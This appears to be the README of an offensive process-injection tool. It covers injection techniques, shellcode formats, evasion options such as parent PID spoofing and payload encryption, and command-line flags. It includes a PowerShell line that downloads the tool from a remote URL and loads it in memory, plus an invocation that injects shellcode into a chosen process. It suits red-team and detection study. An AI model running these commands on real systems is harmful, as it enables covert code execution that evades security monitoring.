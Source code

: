 # ProcessInjection

----

The program is designed to perform process injection.
Currently the tool supports 4 process injection techniques.

```
1) Vanilla Process Injection
2) DLL Injection
3) Process Hollowing
4) APC Queue
```

The tool accepts shellcode in 4 formats.

```
1) base64
2) hex
3) c
4) raw
```

The tool supports 2 methods to perform process injection.

```
1) P/Invoke
2) D/Invoke
```

Supports 3 detection evading techniques.

```
1) Parent PID Spoofing

Encryption
2) XOR Encryption (It can also be used with Parent PID Spoofing technique but can't be used with DLL Injection Technique)
3) AES Encryption (It can also be used with Parent PID Spoofing technique but can't be used with DLL Injection Technique)
```

Can be loaded via reflection.

```
# Load from the disk
[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("ProcessInjection.exe"));

# Load from a remote server
[System.Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData("http://<URL>/ProcessInjection.exe"))

# Perform process injection
[ProcessInjection.ProcessInjection]::Main(@("/t:1", "/f:base64", "/pid:<ProcessId>", "/sc:<ShellCode>"))
```

### Command Line Usage

```
Usage           Description
-----           -----------
/t              Specify the process injection technique id.
                1 = Vanilla Process Injection
                2 = DLL Injection
                3 = Process Hollowing
                4 = APC Queue Injection
/m              Specify the method to be used
                p = P/Invoke (Default)
                d = D/Invoke
/f              Specify the format of the shellcode.
                base64
                hex
                c
                raw
/pid            Specify the process id.
/parentproc     Specify the parent process name.
/path           Specify the path of the file that contains the shellcode.
/ppath          Specify the path of the executable that will be spawned (Mandatory while using /parentproc argument).
/url            Specify the url where the shellcode is hosted.
/enc            Specify the encryption type (aes or xor) in which the shellcode is encrypted.
/key            Specify the key that will be used to decrypt the shellcode.
/sc             Specify the shellcode directly in base64 or hex format. Note: To pass large shellcode please leverage reflection to run the program.  
/help           Show help
```

### Blog Post

[https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html](https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html)

[https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html](https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html)

[https://3xpl01tc0d3r.blogspot.com/2019/10/process-injection-part-iii.html](https://3xpl01tc0d3r.blogspot.com/2019/10/process-injection-part-iii.html)

[https://medium.com/@r3n_hat/parent-pid-spoofing-b0b17317168e](https://medium.com/@r3n_hat/parent-pid-spoofing-b0b17317168e)

[https://3xpl01tc0d3r.blogspot.com/2019/12/process-injection-part-v.html](https://3xpl01tc0d3r.blogspot.com/2019/12/process-injection-part-v.html)

[https://3xpl01tc0d3r.blogspot.com/2020/08/process-injection-tool-updates.html](https://3xpl01tc0d3r.blogspot.com/2020/08/process-injection-tool-updates.html)


### Contribution Credit

[Renos](https://twitter.com/r3n_hat)

Credits also goes to :

[Aaron Bray](https://github.com/ambray) & [Rasta Mouse](https://twitter.com/_rastamouse) for Process Hollowing code

[The Wover](https://twitter.com/TheRealWover) & [b33f](https://twitter.com/FuzzySec) for Dynamic Invoke - (https://thewover.github.io/Dynamic-Invoke/)

